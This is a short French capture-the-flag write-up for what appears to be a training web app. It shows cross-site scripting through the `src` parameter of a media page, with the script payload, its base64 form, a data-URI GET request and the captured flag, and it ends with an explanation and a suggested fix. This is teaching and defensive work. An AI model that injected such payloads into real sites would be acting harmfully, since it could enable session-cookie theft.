 # Recherches

1. En cliquant sur la derniere image de la NSA sur la page d'accueil on arrive sur une page affichant un media
2. En regardant l'URL on peut remarquer que la source est indiquee via le parametre `src` qui est utilise dans un object image HTML
3. Si son utilisation n'est pas protegee (ce qui est le cas ici) on peut faire du XSS
4. Payload:
   ```
   <script>alert(1)</script>
   ```
5. Base64: `PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==`
6. GET request: `/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==`

> FLAG: 928D819FC19405AE09921A2B71227BD9ABA106F9D2D37AC412E9E5A750F1506D

# Explications

Encore une faille XSS, cette fois dans l'URL, elle pourrait permettre de recuperer des cookies de sessions.

# Corrections

Pour eviter cette vulnerabilite on pourrais utiliser une bdd et donc des ids qui pointeraient sur une image specifique.
